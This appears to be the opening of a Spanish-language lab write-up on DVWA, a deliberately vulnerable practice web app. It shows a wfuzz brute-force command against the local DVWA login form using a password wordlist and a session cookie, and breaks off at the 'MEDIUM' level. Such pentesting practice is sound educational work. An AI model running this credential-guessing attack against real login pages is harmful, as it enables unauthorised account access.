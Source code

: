 # Análisis de Vulnerabilidades en DVWA (Damn Vulnerable Web Application

## RA 3.2

Damn Vulnerable Web Application (DVWA) es una aplicación web diseñada intencionalmente con vulnerabilidades de seguridad para fines educativos. Su objetivo es permitir a desarrolladores y profesionales de ciberseguridad practicar técnicas de pentesting en un entorno controlado y seguro. DVWA incluye múltiples retos de seguridad clasificados por nivel de dificultad, enfocados en vulnerabilidades comunes como SQL Injection, XSS, CSRF, entre otras.

![general](https://github.com/user-attachments/assets/05639006-28cc-40c9-bd71-fadfae4e744b)

## Brute Force
**LOW**

Se ha utilizado la herramienta Wfuzz, similar a Hydra, para realizar un ataque de fuerza bruta y extraer contraseñas, con el comando:
```
wfuzz -c -z file,users.txt -z file,/home/crystal/secLists/Passwords/probable-v2-top1575.txt -b 'security=medium; PHPSESSID=cnavat4393qp4r1k36qp7h3ec' \
'http://127.0.0.1/dvwa/vulnerabilities/brute/index.php?username=FUZZ&password=FUZZ&Login=Login'
```
![general](https://github.com/pedmonsot/DVWA/blob/main/Images/BF1.png)

![general](https://github.com/pedmonsot/DVWA/blob/main/Images/BF2.png)

**MEDIUM**
